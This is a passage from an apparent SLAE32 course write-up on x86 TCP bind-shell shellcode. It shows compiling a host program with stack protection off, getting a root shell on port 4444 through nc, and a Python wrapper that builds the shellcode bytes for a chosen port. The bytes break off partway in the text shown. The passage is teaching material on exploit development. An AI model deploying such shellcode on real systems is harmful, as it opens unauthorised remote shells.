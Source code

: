 ```c
}
```

### Compiling the Host Program
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c 
```

### Testing the Shellcode within by Executing the Host Program
#### Terminal Window 1
```console
root# ./shellcode 
Shellcode Length:  114
```
#### Terminal Window 2
```console
root# netstat -tnalp | grep shellcode
tcp      0      0 0.0.0.0:4444     0.0.0.0:*   LISTEN    19143/shellcode 
root# nc.traditional 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
Perfect! Our TCP-IP Bind Shell, Shellcode works as intended when injected into another program!  
The next assignment in the SLAE32 course is to create a TCP-IP Reverse Shell, Shellcode.

## TCP Bind Shellcode Wrapper
#### Python Wrapper Script
```python
#!/usr/bin/python
# Filename: tcpBind.py
# Author:   boku

# Take users TCP port as input
port = raw_input("Enter TCP Port Number: ")
# Convert input string to an integer
deciPort = int(port)
# Format the integer to Hex Integer
hexPort = "{:02x}".format(deciPort)
#print "Hex value of Decimal Number:",hexPort
# Check the length of the output hex string
hexStrLen = len(hexPort)
# Check if the hex string is even or odd with modulus 2
oddEven = hexStrLen % 2
# if it returns 1 then it's odd. We need to add a leading 0
if oddEven == 1:
    hexPort = "0" + hexPort
    #print hexPort    # commented out. Used for debugging
# converts the  port number into the correct hex format
tcpPort = "\\x".join(hexPort[i:i+2] for i in range(0,len(hexPort), 2))
print "Your TCP Port in Hex is:","\\x"+tcpPort
nullCheck = deciPort % 256
if nullCheck == 0 :
    print "Your TCP Port contains a Null 0x00."
    print "Try again with a different Port Number."
    exit(0)
#print "\\x"+hexString   # debugging

scPart1 = "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89"
scPart1 += "\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xd2\x52\x66\x68"
#Decimal 4444 = \x11\x5c = 0x115c # debugging
#tcpPort = "\x11\x5c"
```

[1]: 1
[1]: 1